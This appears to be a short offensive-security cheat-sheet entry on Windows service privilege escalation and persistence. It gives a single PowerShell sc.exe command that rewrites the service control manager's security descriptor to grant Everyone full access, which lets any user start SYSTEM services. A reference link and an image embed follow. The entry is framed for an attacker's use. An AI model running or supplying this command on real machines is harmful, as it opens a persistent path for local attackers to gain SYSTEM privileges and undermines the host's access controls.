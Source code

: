 # Service Privilege Escalation / Persistence

Modification of the security descriptor on the service manager allowing for anyone to start SYSTEM services.&#x20;

```powershell
sc.exe sdset scmanager D:(A;;KA;;;WD)
```

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### References

{% embed url="https://twitter.com/0gtweet/status/1628720819537936386" %}
